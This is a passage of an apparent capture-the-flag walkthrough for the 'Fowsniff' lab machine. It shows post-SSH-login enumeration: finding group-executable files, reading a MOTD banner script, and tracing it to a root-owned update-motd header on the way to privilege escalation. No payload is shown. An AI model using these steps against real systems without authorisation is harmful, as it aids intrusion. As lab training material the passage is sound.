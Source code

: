 ```
              ---------- NOTICE: ----------

 * Due to the recent security breach, we are running on a very minimal system.
 * Contact AJ Stone -IMMEDIATELY- about changing your email and SSH passwords.


Last login: Tue Mar 13 16:55:40 2018 from 192.168.7.36
baksteen@fowsniff:~$
```

Now we are logged in on SSH !

## Privilege escalation

It's time to get root ! Let's see what groups we are member of :  
```
baksteen@fowsniff:~$ id
uid=1004(baksteen) gid=100(users) groups=100(users),1001(baksteen)
```

We are member of group `users`... Let's find out if there is a file executable by this group :  
```
baksteen@fowsniff:~$ find / -group users -type f -executable 2>/dev/null
/opt/cube/cube.sh
```

There is a bash script located in `/opt/cube`. Let's take a look at it :  
```
baksteen@fowsniff:~$ cat /opt/cube/cube.sh
printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"
```

This file seems to be executed when we log in on SSH. Let's find out if this file is run by something somewhere on the machine :  
```
baksteen@fowsniff:~$ cd /etc
baksteen@fowsniff:/etc$ grep -iRl /opt/cube/cube.sh 2>/dev/null
update-motd.d/00-header
baksteen@fowsniff:/etc$ ls -la update-motd.d/00-header 
-rwxr-xr-x 1 root root 1248 Mar 11  2018 update-motd.d/00-header
baksteen@fowsniff:/etc$ cat update-motd.d/00-header
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
```